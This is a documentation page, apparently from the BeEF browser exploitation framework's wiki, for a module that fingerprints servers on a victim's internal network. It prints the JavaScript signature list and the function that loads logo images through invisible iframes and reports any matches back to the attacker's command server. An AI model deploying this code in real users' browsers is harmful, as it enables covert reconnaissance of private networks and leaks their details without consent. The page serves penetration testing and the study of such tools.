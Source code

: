 ## Summary

* **Objective**: Discover HTTP endpoints in a network
* **Authors**: bcoles, wade, antisnatchor
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/network/internal_network_fingerprinting)

## Internal Working

This module requests default logo images/favicons (via iframes) on servers of the internal network to discover endpoints.

**example fingerprints**
```js
new Array(
    "Apache",
    "80","http",false,
    "/icons/apache_pb.gif",259,32),
new Array(
    "Apache 2.x",
    "80","http",false,
    "/icons/apache_pb2.gif",259,32),
new Array(
    "Microsoft IIS 7.x",
    "80","http",false,
    "/welcome.png",571,411),

```

**checking signature**

```js

checkSignature = function(signature_id, signature_name, proto, ip, port, uri) {
    var img = new Image;
    var dom = beef.dom.createInvisibleIframe();
    dom.setAttribute('id', 'lan_<%= @command_id %>_'+signature_id+'_'+proto+'_'+ip);
    beef.debug("[Network Fingerprint] Checking for [" + signature_name + "] at IP [" + ip + "] (" + proto + ")");
    img.id  = signature_id;
    img.src = proto+"://"+ip+":"+port+uri;
    img.onerror = function() { dom.removeChild(this); }
    img.onload = function() {
      if (this.width == urls[this.id][5] && this.height == urls[this.id][6]) {
        beef.net.send('<%= @command_url %>', <%= @command_id %>,'proto='+proto+'&ip='+ip+'&port='+port+'&discovered='+signature_name+"&url="+escape(this.src), beef.are.status_success());dom.removeChild(this);
        beef.debug("[Network Fingerprint] Found [" + signature_name + "] with URL [" + escape(this.src) + "]");
      }
    }
    dom.appendChild(img);
    // stop & remove iframe
    setTimeout(function() {
      if (dom.contentWindow.stop !== undefined) {
        dom.contentWindow.stop();
      } else if (dom.contentWindow.document.execCommand !== undefined) {
        dom.contentWindow.document.execCommand("Stop", false);
      }
      document.body.removeChild(dom);
    }, timeout);
}
```

## Screenshots

[[Images/module-network-fingerprint1.png|align=center]]

[[Images/module-network-fingerprint2.png|align=center]]

## References

https://code.google.com/archive/p/jslanscanner

## Feedback


